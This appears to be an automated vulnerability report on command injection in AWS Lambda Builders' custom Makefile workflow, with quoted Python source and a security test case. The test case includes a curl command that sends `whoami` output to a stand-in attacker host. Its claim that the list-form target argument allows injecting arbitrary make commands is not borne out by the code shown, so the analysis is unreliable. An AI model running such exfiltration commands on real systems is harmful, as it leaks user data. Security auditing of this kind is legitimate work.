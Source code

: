 ## Vulnerability List

- Vulnerability Name: Command Injection in Custom Makefile Workflow
- Description:
  1. An attacker compromises the source code repository of a Lambda function project.
  2. The attacker modifies the `Makefile` within the project, injecting malicious commands into a build target, specifically targets like `build-{Function_Logical_Id}`.
  3. A developer uses Lambda Builders to build the Lambda function, either directly or via `sam build`.
  4. Lambda Builders, when processing the custom workflow, executes the user-supplied `Makefile` using `make`.
  5. The injected malicious commands within the `Makefile` are executed by the `make` process on the developer's machine or build environment.
- Impact:
  - **High**: Arbitrary command execution on the developer's machine or build environment. This could lead to sensitive data exfiltration, installation of malware, or further compromise of the developer's system and potentially their AWS credentials.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
  - **None**: The code directly executes the `Makefile` without any input sanitization or command filtering.
- Missing Mitigations:
  - **Input Sanitization**: Implement sanitization of the `build_logical_id` and other inputs passed to the `Makefile` execution to prevent injection of malicious commands.
  - **Command Filtering/Sandboxing**: Restrict the commands that can be executed within the Makefile. Ideally, use a safer build mechanism instead of directly executing Makefiles provided by users.
  - **Warning to Users**: Display a clear warning to users about the security risks of using custom Makefiles and the importance of reviewing Makefiles from untrusted sources.
- Preconditions:
  - Attacker has compromised the source code repository of a Lambda function project and can modify the `Makefile`.
  - Developer uses Lambda Builders to build the compromised Lambda function project with the custom Makefile workflow.
- Source Code Analysis:
  ```python
  File: /code/aws_lambda_builders/workflows/custom_make/actions.py

  class CustomMakeAction(BaseAction):
      ...
      def execute(self):
          ...
          try:
              current_env = self.osutils.environ()
              current_env.update({"ARTIFACTS_DIR": self.artifact_dir_path})
              # Export environmental variables that might be needed by other binaries used
              # within the Makefile and also specify the makefile to be used as well.
              self.subprocess_make.run(
                  [
                      "--makefile",
                      "{}".format(self.manifest_path),
                      "build-{logical_id}".format(logical_id=self.build_logical_id), # Vulnerability: build_logical_id is directly injected into make target
                  ],
                  env=current_env,
                  cwd=self.working_directory,
              )
          except MakeExecutionError as ex:
              raise ActionFailedError(str(ex))
  ```
  The `CustomMakeAction.execute` method in `aws_lambda_builders/workflows/custom_make/actions.py` directly constructs the `make` command by embedding the `build_logical_id` into the target name without any sanitization. An attacker can control the `build_logical_id` through the `options` parameter, which is derived from user input (e.g., SAM template). By crafting a malicious `build_logical_id`, an attacker can inject arbitrary `make` commands.
- Security Test Case:
  1. Create a Lambda function project with a `provided` runtime.
  2. Create a `Makefile` in the project root with the following content:
     ```makefile
     build-HelloWorldFunction:
         touch $(ARTIFACTS_DIR)/marker.txt
         malicious_command # Injected command
     ```
  3. Replace `malicious_command` with a command to execute, for example: `curl http://attacker.com/exfiltrate?data=$(whoami)`.
  4. Run `sam build --function-name HelloWorldFunction --template template.yaml` (or equivalent command that uses Lambda Builders and triggers the custom workflow).
  5. Observe if the `malicious_command` is executed. In this example, check network traffic to `attacker.com` or if the `marker.txt` file is created in the artifacts directory, indicating the Makefile was executed with injected commands.